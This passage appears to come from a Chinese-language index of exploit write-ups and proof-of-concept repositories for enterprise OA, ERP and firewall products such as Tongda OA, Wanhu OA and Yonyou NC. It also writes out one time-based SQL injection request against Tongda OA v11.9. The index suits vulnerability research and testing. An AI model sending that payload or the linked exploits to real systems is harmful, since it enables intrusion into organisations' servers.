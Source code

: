 [通达 OA 代码审计篇二 ：11.8 后台 Getshell](https://paper.seebug.org/1499/)

[通达oa 11.8 后台getshell](https://github.com/z1un/TongdaOA-exp)

[通达OA-V11.8-api-ali.php文件上传漏洞](https://www.cnblogs.com/hmesed/p/16195551.html)

通达OA v11.9 upsharestatus 后台SQL注入漏洞

```
POST /general/appbuilder/web/portal/workbench/upsharestatus HTTP/1.1
Content-Type: application/x-www-form-urlencoded

uid=15&status=1&id=1;select sleep(4)
```

[某知名OA高版本getshell思路（附部分脚本）](https://mp.weixin.qq.com/s/HU-KxA75PR3u47QOqKWktQ)

[通达OA v11.10 sql注入漏洞复现](https://www.yulate.com/303.html)

## 网神

[网神 SecGate 3600 防火墙 obj_app_upfile 任意文件上传漏洞 ](https://peiqi.wgpsec.org/wiki/iot/%E5%A5%87%E5%AE%89%E4%BF%A1/%E7%BD%91%E7%A5%9E%20SecGate%203600%20%E9%98%B2%E7%81%AB%E5%A2%99%20obj_app_upfile%20%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E.html)

## 网御 ACM上网行为管理系统

[网御 ACM上网行为管理系统 bottomframe.cgi SQL注入漏洞](https://peiqi.wgpsec.org/wiki/iot/%E5%A5%87%E5%AE%89%E4%BF%A1/%E7%BD%91%E5%BE%A1%20ACM%E4%B8%8A%E7%BD%91%E8%A1%8C%E4%B8%BA%E7%AE%A1%E7%90%86%E7%B3%BB%E7%BB%9F%20bottomframe.cgi%20SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.html)

## 万户OA

- [户OA smartUpload.jsp 任意文件上传漏洞](https://anpaini.com/2022/OA产品漏洞/万户OA%20smartUpload.jsp%20任意文件上传漏洞/)
- [万户OA upload任意文件上传漏洞复现](https://blog.csdn.net/qq_41904294/article/details/134515628)

## 信呼 OA

[信呼OA存储型XSS 0day复现](https://xz.aliyun.com/t/7887)

## 云时空社会化商业ERP系统

[云时空社会化商业ERP系统gpy任意文件上传漏洞RCE](https://mp.weixin.qq.com/s?__biz=MzkyOTQ1MjQwMw==&mid=2247483863&idx=1&sn=fca9ddbb361c88112279929d5c25065b)

## 用友NC

[用友nc数据库密码解密](https://github.com/jas502n/ncDecode) 

[kezibei/yongyou_nc_poc](https://github.com/kezibei/yongyou_nc_poc)

[用友GRP-U8行政事业财务管理软件 SQL注入 CNNVD-201610-923](http://wiki.peiqi.tech/PeiQi_Wiki/OA产品漏洞/用友OA/用友GRP-U8行政事业财务管理软件%20SQL注入%20CNNVD-201610-923.html)
